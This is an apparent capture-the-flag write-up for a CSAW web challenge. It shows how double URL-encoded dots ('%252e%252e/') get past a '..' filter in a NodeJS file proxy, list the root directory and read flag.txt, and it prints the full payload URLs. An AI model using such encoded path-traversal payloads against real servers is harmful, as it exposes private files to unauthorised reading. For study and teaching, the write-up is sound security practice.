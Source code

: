 ### Points
100

### Readme
```
I wrote a little proxy program in NodeJS for my poems folder.

Everyone wants to read flag.txt but I like it too much to share.

http://web.chal.csaw.io:7311/?path=orange.txt
```

### Steps
1. We clicked to the provided link. It show us the content of a normal plain text file.
```
i love oranges
```

2. We can realize that this might be a kind of `Path traversal` attack. So, let's try some possible ways:

* Firstly, we try to see if the `..` is being blocked:

<http://web.chal.csaw.io:7311/?path=../orange.txt>

Resulted in:
```
WHOA THATS BANNED!!!!
```

So, we know that it filters out and block: `..` characters.

* Secondly, we try with the unicode format of the character `.` as `%25e`:

<http://web.chal.csaw.io:7311/?path=%25e%25e/orange.txt>

Resulted in:
```
Error response

Error code 404.

Message: File not found.

Error code explanation: 404 = Nothing matches the given URI. 
```

Wow, the printed result is different from the previous try. So, we know that the `%25e` character has not been filtered out.
Now, it is just the matter of `File not found`.

3. Next, we know that if we put so many `../` or `%25e%25e/`, we possibly able to traverse to the root of file system, eventually.
So, let's try it with:

<http://web.chal.csaw.io:7311/?path=%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/>

Oh! We can see some interesting files here:
```
Directory listing for /poems/../../../../../../../

    .dockerignore
    back.py
    flag.txt
    poems/
    serve.sh
    server.js 
```

4. The `flag.txt` is the file we need. Let's read it:

<http://web.chal.csaw.io:7311/?path=%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/flag.txt>

=> Flag: `flag{thank_you_based_orange_for_this_ctf_challenge}`


(Ref: WAH, chapter 10, page 375)

